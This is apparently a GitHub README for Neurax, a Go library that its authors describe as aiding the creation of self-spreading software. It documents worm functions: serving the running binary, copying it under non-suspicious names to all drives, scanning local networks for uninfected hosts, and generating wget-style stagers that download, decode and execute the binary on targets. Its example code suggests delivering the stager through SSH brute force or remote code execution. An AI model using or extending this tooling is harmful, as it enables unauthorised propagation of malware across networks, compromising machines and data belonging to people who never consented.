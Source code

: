 <h1 align="center"> Neurax </h1> <br>

<p align="center">
  <a>
    <img alt="Neurax" title="Neurax" src="neurax.png">
  </a>
</p>

<p align="center"> A library that aids in creation of self-spreading software</p>

## Requirements
`go get -u github.com/redcode-labs/Coldfire`
`go get -u github.com/yelinaung/go-haikunator`

## Usage
With help of Neurax, Golang binaries can spread on local network without using any external servers.

Diverse config options and command stagers allow rapid propagation across various wireless environments.
### Example code

```go
package main
import "github.com/redcode-labs/Neurax"

func main(){

  //Specify serving port and stager to use
  NeuraxConfig.port = 5555
  NeuraxConfig.stager = "wget"

  //Start a server that exposes the current binary in the background
  go NeuraxServer()
 
  //Copy current binary to all logical drives
  NeuraxDisks()

  //Create a command stager that should be launched on target machine
  //It will download, decode and execute the binary
  cmd_stager := NeuraxStager()

  /* Now you have to somehow execute the command generated above.
     You can use SSH bruteforce, some RCE or whatever else you want ;> */

}
```

### List of config entries

<span style="color:#b45e02">Name</span> | <span style="color:#5f1e2d">Description</span> | <span style="color:#aa5502">Default value</span>
--- | --- | ---
NeuraxConfig.stager           | Name of the command stager to use | random, platform-compatible
NeuraxConfig.port             | Port to serve on | random from 2222 to 9999
NeuraxConfig.platform         | Platform to target | detected automatically
NeuraxConfig.path             | The path under which binary is saved on the host | random
NeuraxConfig.file_name        | Name under which downloaded binary should be served and then saved | random
NeuraxConfig.base64           | Encode the transferred binary in base64 | false
NeuraxConfig.comm_port        | Port that is used by binaries to communicate with each other | random
NeuraxConfig.required_port    | NeuraxScan() treats host as active only when it has a specific port opened|none
NeuraxConfig.scan_passive     | NeuraxScan() detects hosts using passive ARP traffic monitoring | false
NeuraxConfig.scan_timeout     | NeuraxScan() sets this value as timeout for scanned port in each thread | 2 seconds
NeuraxConfig.read_arp_cache   | NeuraxScan() scans first the hosts found in local ARP cache. Works only with active scan | false
NeuraxConfig.cidr             | NeuraxScan() scans this CIDR | local IP + "\24"
NeuraxConfig.threads          | Number of threads to use for NeuraxScan() | 10
NeuraxConfig.full_range       | NeuraxScan() scans all ports of target host to determine if it is active | from 19 to 300
NeuraxConfig.verbose          | If true, all error messages are printed to STDOUT | false
NeuraxConfig.remove           | When any errors occur, binary removes itself from the host | false

### Finding new targets
Function `NeuraxScan(c chan string)` enables detection of active hosts on local network.
It accepts a channel of type string as it's only argument and should be launched as a goroutine.
Any scanned host will be sent through that channel as soon as it was classified as active.
Host is treated as active when it has at least 1 open port, is not already infected + fullfils conditions specified within `NeuraxConfig`.

### Disks infection
  Neurax binary doesn't have to copy itself using wireless means.
  Function `NeuraxDisks()` copies current binary (under non-suspicious name) to all logical drives that were found.
  Copied binary is not executed, but simply resides in it's destination waiting to be run.
  `NeuraxDisks()` returns an `error` if list of disks cannot be obtained or copying to any destination was impossible.

## Artwork credits

====> [Seto01](https://www.deviantart.com/seto01/art/New-disease-parasite-438032692) <====

## License
This software is under [MIT license](https://en.wikipedia.org/wiki/MIT_License)